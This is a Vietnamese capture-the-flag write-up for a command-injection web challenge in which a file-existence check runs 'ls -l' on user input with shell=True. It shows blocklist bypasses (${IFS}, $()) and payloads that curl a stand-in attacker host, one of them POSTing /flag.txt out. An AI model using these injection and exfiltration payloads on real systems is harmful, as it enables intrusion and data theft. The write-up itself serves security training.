

# Command Injection

**Tên challenge:** The Existed File

**Link challenge:** [Here](https://battle.cookiearena.org/challenges/web/the-existed-file)

**Tác giả challenge:** MEME

**Mục tiêu challenge:** The system will check whether the file exists or not. We have also implemented blocklist keywords to detect hackers. Flag is located on `/flag.txt`
Format FLAG: `CHH{XXX}`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng check File có tồn tại hay không như sau:


**B2:** Ta thử Submit `/flag.txt`


**B3:** Ta thử chèn thêm `;` vào input thì kết quả là:
```
Blacklist characters detected!
```

Sau đó, ta đọc **Source Code** mà Challenge cung cấp cho ta thì thu được:
1. Trang Web đã chặn các từ khoá sau:


2. Trang Web đang thực thi câu lệnh `ls -l + input_user` và nếu có kết quả thì sẽ trả về `File is existed!`, ngược lại nếu lệnh thực thi bị lỗi hoặc không có kết quả trả về thì nó sẽ trả về `File is not existed`
```
try:
    command = f"ls -l {file_path}"
    result = subprocess.check_output(command, shell=True).decode()
    if result:
        result = 'File is existed!'
except Exception as e:
    result = 'File is not existed'
```
Ngoài ra, sau khi thử vài payload để thử nối dài `Command` ra thì ta biết được các kí tự như `space`, `%0a`, `%09` đều bị chặn.

Sau khi đi tìm hiểu các cách Bypass có thể và thử nghiệm thì ta rút ra được mấy cách thay thế sau:
1. Ta có thể thay thế `space` bằng `${IFS}`
2. Ta có thể thực thi câu lệnh khác thông qua `$()`

Vấn đề là kết quả mà lệnh thực thi dù được hay không thì đều nằm trong 2 kết quả mà Website đã lập trình sẵn là:
```
File is existed!
File is not existed
```

Cho nên, cách dễ nhất là ta sẽ đẩy file `flag.txt` ra **Web_Attacker** của ta.

**B4:** Ta thử dùng lệnh `curl` đến **Web_Attacker** của ta xem liệu lệnh có được thực thi không ?
```
/etc/passwd$(curl${IFS}https://Web_Attacker)
```



=> Xem ra ta đã có thể `curl` đến **Web_Attacker** của ta.

Tiếp theo, ta chỉ cần đẩy file `flag.txt` ra ngoài thôi.

<u>**Lưu ý:**</u> Nếu bạn sài `webhook.site` thì có thể sẽ gặp lỗi, khuyến khích bạn nên thử các Webhook khác như `RequestBin`,...

**B5:** Đẩy file `/flag.txt` ra ngoài qua payload: `/etc/passwd$(curl${IFS}-X${IFS}POST${IFS}-F${IFS}"file=@/flag.txt"${IFS}https://Web_Attacker)`


=> Tiếp theo, ta chỉ cần Download file về và đọc `Flag` thôi.